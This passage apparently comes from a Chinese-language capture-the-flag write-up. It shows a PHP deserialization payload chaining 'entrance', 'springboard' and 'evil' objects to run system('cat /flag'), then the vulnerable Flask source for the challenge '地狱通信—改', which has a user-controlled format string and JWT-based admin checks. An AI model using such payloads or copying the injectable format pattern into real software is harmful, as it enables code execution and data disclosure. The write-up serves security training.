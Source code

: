 ```php
```

得到序列化后的结果 ：`O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:20:"system('cat /flag');";}}}`

最终取得flag：

![](https://i.loli.net/2021/09/24/jlzvO5bMwC68ZWr.png)

### (7)地狱通信???

实际上比 改 简单，但有时间限制，看以下题解就行了

### <font color='red'>(8)地狱通信—改</font>

> 实际上地狱通信比这个简单，但有时间限制，这题做出来地狱通信也就没有问题了

```php
from flask import Flask, render_template, request, session, redirect, make_response
from secret import secret, headers, User
import datetime
import jwt

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    res = make_response(ctx)
    name = request.args.get('name') or ''
    if 'admin' in name or name == '':
        return res
    payload = {
        "name": name,
    }
    token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
    res.set_cookie('token', token)
    return res


@app.route('/hello', methods=['GET', 'POST'])
def hello():
    token = request.cookies.get('token')
    if not token:
        return redirect('/', 302)
    try:
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
        return message.format(user)
    else:
        return render_template('flag.html', name=name)


if __name__ == "__main__":
    app.run()
```
